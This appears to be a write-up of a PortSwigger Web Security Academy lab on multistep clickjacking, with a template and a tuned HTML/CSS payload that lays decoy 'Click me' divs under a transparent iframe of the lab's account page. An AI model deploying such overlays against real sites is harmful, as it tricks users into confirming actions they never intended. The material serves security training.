



# Lab description
Lab that tries to cover the multistep clickjacking attacks.
This lab has a confirmation dialog that makes the need of a multi-step attack, as the user **does not only has to press the first button, but a second one confirming the operation.**

# Writeup
Here is a template HTML that creates a div that, when is clicked, triggers a second div, one for each step of the attack. Both divs are dummy and they are replacing the two invisible operations that the user is doing in the invisible iframe.
Remember that both divs need to be in place in both specific situations, so the attack gets harder the more steps it needs, as more placement is needed.

Here is the HTML:
```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  .firstClick,
  .secondClick {
    position: absolute;
    top: $top_value1;
    left: $side_value1;
    z-index: 1;
  }

  .secondClick {
    top: $top_value2;
    left: $side_value2;
  }
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

We can see the two divs, and the same iframe which will be invisible.

Well, let's replace the pixel values of the two divs, and test both steps.
Step 1 (typical steps from other clickjacking labs):


Step 2 (new step), click the first button and check the placement of the second button:


We now know that both buttons are in place. Just send the final HTML with good placement:
```css
<style>
  iframe {
    position: relative;
    width: 500;
    height: 700;
    opacity: 0.1;
    z-index: 2;
  }

  .firstClick,
  .secondClick {
    position: absolute;
    top: 500;
    left: 50;
    z-index: 1;
  }

  .secondClick {
    top: 285;
    left: 225;
  }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0af200c9048711e881ce11c800b600f2.web-security-academy.net/my-account"></iframe>
```

And woila!
